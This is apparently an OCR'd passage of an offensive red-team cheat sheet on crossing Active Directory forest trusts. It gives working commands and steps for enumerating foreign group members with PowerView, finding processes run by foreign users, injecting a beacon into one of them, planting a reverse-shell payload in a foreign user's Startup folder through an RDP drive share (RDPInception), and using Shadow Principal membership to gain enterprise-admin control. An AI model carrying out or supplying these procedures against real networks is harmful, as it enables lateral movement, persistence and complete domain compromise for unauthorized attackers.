 ##### _Cross security boundary via impersonation and RDPInjection:_
>This method requires you to have high privileges on the system in the current domain that is used by the target foreign user\.
- 1\. Find non\-native principals in the current root domain that are from other domains \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)\): `Get-DomainForeignGroupMember -Domain <FQDN current domain>`
- 2\. Check if the found principal \(e\.g\. group\) has privileged access \(e\.g\. local admin, RDP/WinRM/DCOM\) in the current domain and for which systems in the current domain they apply \(check via BloodHound by looking up the found principal\)\. 
- 3\. Move laterally to those machines, camp there until you see a user account from the other domain authenticate and then exploit the situation:
	- 1\. First try impersonating the target user to hop the trust:
		- 1\. Check if there are any \(remote management\) processes running \(e\.g\. RDP\): `netstat -anop tcp | findstr 3389`
		- 2\. List the processes and check if the identified process is running as a foreign domain user: `tasklist /v`
		- 3\. Inject a beacon into one of the identified service processes of the foreign user which allows you to instantly run commands \(in the context of that user account\) in the foreign domain \(this will bypass the forest security boundary\): `inject <PID> x64 <tcp listener>`
	- 2\. \(optional\) If that didn’t work because the foreign user account doesn't have local admin access or there are no juicy management ports available, it may still be possible to move laterally via an established RDP channel if drive sharing is enabled on the foreign RDP client \(attack called RDPInception\) (the drive sharing option can be found here in the RDP client: Show Options > Local Resources tab > More > enable 'Drives' > enable 'Local Disk \(C:\)')
		- 1\. Upload via the accessible ‘tsclient’ drive \(the C drive on the target system\) a reverse shell \.exe payload to the startup folder of the foreign user: `\\tsclient\c\Users\<username foreign user>\AppData\Roaming\Microsoft\Windows\Start`
		- 2\. The payload will be executed the next time the foreign user logs in\.

##### _Cross security boundary via Shadow Principles:_
An outbound trust direction can also indicate the presence of a bastion forest\. This is a type of cross\-forest trust \(PAM\-trust\) where privileged accounts are isolated from what Microsoft considers to be forests that might already been compromised\. This is done via Shadow Security Principles\. 
- 1\. Check if Shadow Principles are applied and which account are member of the bastion forest \(run this command with DA privs from the DC\) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)\): `Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS\ShadowPrincipalSid | fl`
- 2\. If you are able to compromise a user account mentioned as 'member' of the bastion forest, you instantly obtain EA privs and compromise the complete forest\.
